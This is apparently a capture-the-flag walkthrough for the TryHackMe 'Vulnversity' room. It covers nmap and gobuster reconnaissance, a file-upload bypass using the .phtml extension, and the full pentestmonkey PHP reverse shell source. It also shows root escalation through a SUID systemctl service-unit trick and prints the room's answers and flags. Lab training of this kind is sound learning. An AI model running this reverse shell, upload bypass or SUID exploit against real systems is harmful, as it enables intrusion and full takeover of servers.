


# <center>Vulnversity</center>

Hello every one. Today we'll solve an easy room on Try Hack Me. I'll be guiding you through each task given in the room. lettuce begin.

## Task 1 : Deploy the machine
Just click on `Start Machine` button presented in this task. This shall get your server running. You'll get the ip address in a minute. Then connect to Try Hack Me vpn and try to ping the ip address to check if you can successfull access the server.

## Task 2 : Reconnaissance
Nmap is a free, open-source and powerful tool used to discover hosts and services on a computer network. In our example, we use Nmap to scan this machine to identify all services running on a particular port. Nmap has many capabilities; a table summarises some of its functionality below.


|Nmap flag|	Description|
|---------|------------|
|-sV |	Attempts to determine the version of the services running|
|-p <x> or -p-	|Port scan for port <x> or scan all ports|
|-Pn	|Disable host discovery and scan for open ports|
|-A	|Enables OS and version detection, executes in-build scripts for further| enumeration 
|-sC	|Scan with the default Nmap scripts|
|-v	|Verbose mode|
|-sU	|UDP port scan|
|-sS	|TCP SYN port scan|

Let' scan the machine using Nmap and then we will answer the questions based on out scanning.

```bash
┌──(cyb3ritic㉿kali)-[~]
└─$ nmap -sC -sV 10.10.194.185                          
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-21 21:42 IST
Nmap scan report for 10.10.194.185
Host is up (0.16s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Vuln University
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2024-08-21T16:13:40
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2024-08-21T12:13:41-04:00
|_clock-skew: mean: 1h20m01s, deviation: 2h18m35s, median: 0s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.58 seconds

```


**Q1. Scan the box; how many ports are open?**

```text
From the scan we can see port 21,22,139,445,3128 and 3333 are open.
```
- **Ans: `6`**

**Q2. What version of the squid proxy is running on the machine?**
```bash
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
```
- **Ans: `3.5.12`**

**Q3. How many ports will Nmap scan if the flag -p-400 was used?**
```bash
┌──(cyb3ritic㉿kali)-[~]
└─$ nmap -p-400 10.10.194.185
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-21 21:54 IST
Nmap scan report for 10.10.194.185
Host is up (0.22s latency).
Not shown: 397 closed tcp ports (conn-refused)
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
139/tcp open  netbios-ssn

Nmap done: 1 IP address (1 host up) scanned in 4.13 seconds                                                           
```
- In the output we got 397 closed ports and 3 open ports which makes total of 400 ports. i.e. total 400 ports were scanned.
- **Ans: `400`**

**Q4. What is the most likely operating system this machine is running?**
```bash
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
```
- SSH used on the server corresponds to ubuntu. Hence the machine is most likely using ubuntu operating system
- **Ans: `ubuntu`**

**Q5. What port is the web server running on?**
```bash
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Vuln University
|_http-server-header: Apache/2.4.18 (Ubuntu)
```
- An Apache http daemon is running on port 3333. Thus webserver must be running on port 3333. We can also check it on our browser.

- **Ans: `3333`**

**Q6. What is the flag for enabling verbose mode using Nmap?**
```text
-v enables the verbose mode
```
- **Ans: `-v`**


## Task 3 : Locating directories using Gobuster

Gobuster is a tool for brute-forcing URIs (directories and files), DNS subdomains, and virtual host names. For this machine, we will focus on using it to brute-force directories.

Download Gobuster [here](https://github.com/OJ/gobuster), or if you're on Kali Linux run sudo `apt-get install gobuster`.

|Gobuster flag	|Description
|---------------|-----------
|-e	|Print the full URLs in your console
|-u	|The target URL
|-w	|Path to your wordlist
|-U |and -P	Username and Password for Basic Auth
|-p \<x>	|Proxy to use for requests
|-c \<http cookies>	|Specify a cookie for simulating your auth

To get started, you will need a wordlist for Gobuster (which will be used to quickly go through the wordlist to identify if a public directory is available). If you use Kali Linux, you can find many wordlists under `/usr/share/wordlists`.
Now let's run Gobuster with a wordlist using gobuster.
```bash
┌──(cyb3ritic㉿kali)-[~]
└─$ gobuster dir -u http://10.10.194.185:3333 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -t 50
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.194.185:3333
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-1.0.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 322] [--> http://10.10.194.185:3333/images/]
/css                  (Status: 301) [Size: 319] [--> http://10.10.194.185:3333/css/]
/js                   (Status: 301) [Size: 318] [--> http://10.10.194.185:3333/js/]
/internal             (Status: 301) [Size: 324] [--> http://10.10.194.185:3333/internal/]
Progress: 141708 / 141709 (100.00%)
===============================================================
Finished
===============================================================
```
**Q1. What is the directory that has an upload form page?**
- we discovered 4 directories namely /images, /css, /js, /internal. After manually visiting these directories, we can find an upload form in /internal directory.


- **Ans: `/internal/`**


## Task 4 : Compromise the web server

After seeing the upload form, the first thing that comes to my mind is uploading an webshell or reverse shell to compromise the server. I use [php reverse shell from Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell).

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}
?> 
```
- Edit the ip address and port according to your tun0 ip and desired port number. Let's save the file as revshell.php and try to upload it in the form. 
- Unfortunately I got `extension not allowed` error. So there must be a black list of extensions that are not allowed to upload and `.php` is one of them.
- We have plenty of other possible extensions for php files that can help us bypass the blacklist. 
    - .php
    - .php3
    - .php4
    - .php5
    - .phtml
- this time let's capture the request using burp and send the reverse shell using above extensions one by one using intruder.
- After the attact, our reverse shell was succesfully uploaded with extension .phtml. Now let's run our netcat listener `nc -lnvp 1234` and then try to access and execute the reverse shell.
- going to /internal/uploads/revshell.phtml executes our reverse shell and we get a shell on our netcat listener.


**Q1. What common file type you'd want to upload to exploit the server is blocked? Try a couple to find out.**

**Ans: `.php`**

**Q2. What extension is allowed after running the above exercise?**

**Ans: `.phtml`**

**Q3. What is the name of the user who manages the webserver?**

**Ans: `bill`**

**Q3. What is the user flag?**

**Ans: `8bd7992fbe8a6ad22a63361004cfcedb`**

## Task 5 : Previlege Escalation

Now that you have compromised this machine, we will escalate our privileges and become the superuser (root).

In Linux, SUID (set owner userId upon execution) is a particular type of file permission given to a file. SUID gives temporary permissions to a user to run the program/file with the permission of the file owner (rather than the user who runs it).

For example, the binary file to change your password has the SUID bit set on it (`/usr/bin/passwd`). This is because to change your password, you will need to write to the shadowers file that you do not have access to; `root` does, so it has root privileges to make the right changes.


- Till here we know that we are supposed to do something with suid bits. So let's first check all the files that has SUID bit set.

``` bash
find / -perm -u=s -type f 2>/dev/null
```
- find : initiates find command
- / : searches whole file system
- -perm : searches for file with specific permission
- -u=s : any of the permission bits mode are set.
- -tppe f : only searchfor files
- 2> /dev/null : supresses errors.



Aere an interesting file caught my eye, `/bin/systemctl` because Systemctl is the command-line tool that manages the systemd system and service manager in Linux. It lets users control and manage system services and units with commands to start, stop, restart, and check their status.


- After doing some research, I found that If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.
```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
```
This code snipped runs the shell with root previlege and stores the id to /tmp/output directory. Let's chech it on our target machine.


Here we can see that we escalated teh privilege by abusing SUID and ran `id` command.

So now our next move is to replace `id` command with `cat /root/root.txt` so that it would output the root flag in /tmp/output file. Our new modified code will be:

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
```


And Voilà, we got the root flag.

**Q1. On the system, search for all SUID files. Which file stands out?**

**Ans: `/bin/systemctl`**

**Q2. What is the root flag value?**

**Ans: `a58ff8579f0a9270368d33a9966c7fd5`**

Thankyou for reading this walkthrough. Hope you learnt something new form here. Until we meet again `:)`.
